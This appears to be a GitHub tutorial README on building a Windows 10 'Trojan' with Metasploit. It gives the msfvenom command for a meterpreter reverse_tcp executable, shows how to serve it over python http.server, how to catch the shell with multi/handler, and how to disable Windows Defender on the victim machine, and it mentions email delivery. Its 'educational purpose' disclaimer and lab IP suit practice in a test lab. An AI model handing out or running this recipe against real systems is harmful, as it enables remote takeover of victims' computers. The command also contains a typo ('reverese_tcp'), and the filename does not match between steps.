 # Hack_Windows_10_system_by_creating_Trojan
# Only for Educational purpose only"

## Using the Metasploit framework to hack Windows 10 system by creating Trojan

### Steps to Perform:

*  In Kali, execute the following command to learn about msfvenom, which is part of Metasploit.
`
msfvenom -h
`
*  Determine which payload you want to use. To list the available payload options, type:
`
msfvenom -l payloads
` 
* Choose the payload → ` windows/meterpreter/reverse_tcp ` We will use a reverse_tcp shell for a stable connection. But based on the kind of malware you want to create, you can choose the different available options.

*  We will create a directory for the payload and set the variables for it, Specify the listener IP address (attacker’s IP) with LHOST and the port to listen on with LPORT (The IP for LHOST is the IP of kali machine, i.e., ` 10.0.2.15 ` and use the
port is ` 443`)
  - Define the format of malicious file, i.e., exe
  - Specify the file name for .exe file

 ```
msfvenom -p windows/meterpreter/reverese_tcp LHOST=10.0.2.15 LPORT=443 -f exe > mal.exe
```
 
*  A malicious file, mal1.exe is created which upon execution on victims’ machine will give a reverse shell to an attacker.

*  Host this malicious file using the below command
```
python -m http.server 80
```
*  Launch the Metasploit console

*  Use ` exploit/multi/handler`

*  We will use the Metasploit console to set the payload, LHOST & LPORT. Run the exploit.

* Now, we must download the malicious file on Windows machine (victim)

* Before downloading the file, turn of the Windows Defender settings.

  - Turn off the Virus & Threat protection settings as well
 
*  Open internet explorer. Enter Kali’s IP in the URL bar along with the name of the file to download
> [!CAUTION]
> In an ideal scenario, these malicious files are sent via email or any other malware propagation ways.

* Save this file on desktop

* Click on the file and execute it

* Go back to Kali, you will see that the reverse TCP shell has started

#  ` You Got a Control over the device`
